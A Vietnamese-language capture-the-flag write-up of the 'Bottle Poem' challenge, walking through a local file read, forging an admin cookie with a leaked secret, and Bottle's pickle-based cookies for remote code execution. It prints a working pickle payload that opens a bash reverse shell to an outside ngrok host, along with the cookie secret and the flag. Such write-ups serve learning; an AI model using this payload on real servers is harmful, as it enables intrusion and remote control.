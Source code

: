 # Bottle Poem

Mở burp, và check tag http history dễ thấy ta có thể khai thác local file read (LFR) tại `/show?id=`

(LFR.png)

Tiếp tục fuzz và ta có thể lấy được source file main của server

(app_py.png)

Điều làm mình để ý đó là đoạn code sau trong route `/sign`

```python
@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
```

Nếu `session["name"]=="admin"` thì sẽ render ra một template riêng cho admin, lúc này mình nghĩ tới cách forge session thành admin, nếu làm vậy thì ta sẽ phải cần có secret. May thay secret này được import từ `from config.secret import sekai`

-> read file này tại `/proc/self/cwd/config.secret.py`

(secret_py.png)

Nhưng sau khi forge thành công thì chỉ nhận lại dòng chữ `Hello, you are admin, but it’s useless.`, tới đây tác giả có đề cập về `Flag is executable on server.` -> execute file này để lấy flag -> phải rce

Mình bay vào source của bottle, và để ý `bottle.py` có import pickle và dùng chúng trong việc set_cookie cũng như get_cookie

(get_cookie.png)

=> pickle deserialization trong python để rce

script:

```python
import pickle
import base64
import os
 
 
class shell(object):
    def __reduce__(self):  
       return (os.system, ("bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/10709 0>&1'",))

from bottle import route, run, template, request, response, error

@route('/')
def hello():
    sekai='Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu'
    response.set_cookie("name", shell(), secret=sekai)

    return "Hello World!"

run(host='localhost', port=1111, debug=True)
```

và flag: `SEKAI{W3lcome_To_Our_Bottle}`
